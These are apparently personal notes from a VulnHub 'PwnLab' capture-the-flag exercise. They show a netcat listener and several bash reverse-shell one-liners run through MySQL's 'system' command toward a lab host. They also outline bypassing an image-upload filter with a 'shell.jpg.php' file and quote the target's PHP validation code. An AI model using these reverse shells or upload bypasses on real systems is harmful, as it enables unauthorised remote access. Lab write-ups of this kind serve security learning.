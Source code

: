 ```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# nc -nlvp 808
listening on [any] 808 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.102] 36662
```

```bash
MySQL [(none)]> system
ERROR: Usage: \! shell-command
MySQL [(none)]> system ls
config.php  login.php
MySQL [(none)]> system bash -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system sh -i >& /dev/tcp/192.168.56.102/808 0>&1
sh: 1: Syntax error: Bad fd number
MySQL [(none)]> system bash -c "bash -i >& /dev/tcp/192.168.56.102/808 0>&1"
```

#### upload via web

use creds from DB. Login.

upload page checks 3 things.

- Extensions
- image file type with ['type']
- mime data with getimagesize

so upload a shell.jpg.php with a magic byte

```php
$filename  = $_FILES['file']['name'];
$filetype  = $_FILES['file']['type'];
$uploaddir = 'upload/';
$file_ext  = strrchr($filename, '.');
$imageinfo = getimagesize($_FILES['file']['tmp_name']);
$whitelist = array(".jpg",".jpeg",".gif",".png");
if (!(in_array($file_ext, $whitelist))) {
    die('Not allowed extension, please upload images only.');
}
if(strpos($filetype,'image') === false) {
    die('Error 001');
}
if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
    die('Error 002');
}
if(substr_count($filetype, '/')>1){
    die('Error 003');
}
```
